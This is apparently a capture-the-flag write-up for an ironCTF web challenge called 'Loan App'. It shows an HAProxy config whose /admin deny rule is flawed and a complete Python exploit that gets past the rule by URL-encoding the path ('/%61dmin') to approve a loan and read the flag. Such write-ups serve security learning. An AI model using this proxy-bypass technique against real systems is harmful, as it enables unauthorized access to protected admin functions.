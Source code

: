 +++
title = 'Loan App'
tags = [
  "Web",
  "Python",
  "Proxy bypass",
  "394 points",
  "129 solves",
  "Vigneswar",
]
date = 2024-10-06T14:41:13+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Loan app</h1>

**Description**: One of the first web challenges solved in ctf, not very complex (at least the unintended solution)

## Introduction

This is the challenge web with the most solutions, which I must say is very nice, my solution is the unintended but also the most common one, in fact the correct approach would have been to do 'request smuggling', which is a much more complex attack to bypass the proxy, which in this case consists of splitting a request between proxy and backend.

Solve intended: [Something like this](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/)

## Source

We focus on the proxy config

```python
# filename: file.py

global
    log stdout format raw local0
    maxconn 2000
    user root
    group root
    daemon

defaults
    log global
    option httplog
    timeout client 30s
    timeout server 30s
    timeout connect 30s

frontend http_front
    mode http
    bind :80
    acl is_admin path_beg /admin # Miss config
    http-request deny if is_admin # Miss config
    default_backend gunicorn

backend gunicorn
    mode http
    balance roundrobin
    server loanserver loanapp:8000 maxconn 32

```

And win function

```python
# filename: app.py

@app.route('/admin/loan/<loan_id>', methods=['POST'])
def admin_approve_loan(loan_id):
    try:
        mongo.db.loan.update_one({'_id': ObjectId(loan_id)}, {'$set': {'status': 'approved', 'message': FLAG}})
        return 'OK', 200
    except:
        return 'Internal Server Error', 500

```

_Comments added by me_

## Solution

The solution is very simple: just read the source code, register and login, and create a loan. Once this is done, thanks to the `/admin/loan/id` endpoint, the loan is approved by setting the flag

### Exploit

```python
# filename: exploit.py

#!/usr/bin/python3

import http
import requests
from uuid import uuid4
from bs4 import BeautifulSoup
import urllib3.util

BASE_URL = "http://loanapp.1nf1n1ty.team/"
s = requests.Session()

def login(username,password):
  r = s.post(BASE_URL + "login", data={"username": username, "password": password})
  if r.status_code == 200:
    print("[+] Login successful")
  else:
    print("[-] Login failed: " + r.text)
    exit(1)

def register(username,password):
  r = s.post(BASE_URL + "register",data={"username": username, "password": password})
  if r.status_code == 200:
    print("[+] Registration successful")
  else:
    print("[-] Registration failed: " + r.text)
    exit(1)


def loan_request():
  r = s.post(BASE_URL + "loan-request", data={"amount": "696969696969696969", "reason": "I need money for cookies"})
  if r.status_code == 200:
    print("[+] Loan request successful")
  else:
    print("[-] Loan request failed: " + r.text)
    exit(1)

def get_loan_id():
  r = s.get(BASE_URL)
  soup = BeautifulSoup(r.text, 'html.parser')
  loan_id = soup.find("span", attrs={"class":"loan-id"}).text.strip().split(": ")[1]
  return loan_id

def exploit(loan_id):
  conn = http.client.HTTPConnection(urllib3.util.parse_url(BASE_URL).host)
  conn.request("POST", f"/%61dmin/loan/{loan_id}") # Use http instead of requests for avoid auto url encoding of requests
  response = conn.getresponse()
  if response.status != 200:
    print("[-] Exploit failed")
    exit(1)

def get_flag():
  r = s.get(BASE_URL)
  soup = BeautifulSoup(r.text, 'html.parser')
  return soup.find("p", attrs={"class": "loan-message"}).text.strip()[7:]

def main():
  username, password = uuid4(), uuid4()
  print(f"Username: {username} Password: {password}")
  register(username,password)
  login(username,password)
  loan_request()
  loan_id = get_loan_id()
  print(f"[+] Loan ID: {loan_id}")
  exploit(loan_id)
  print(f"[+] Flag: {get_flag()}")


if __name__ == "__main__":
  main()

# goodluck by @akiidjk

```

```stdout
$flag: ironCTF{L04n_4ppr0v3d_f0r_H4ck3r$!!}
```

<p align='right'>Author: akiidjk </p>
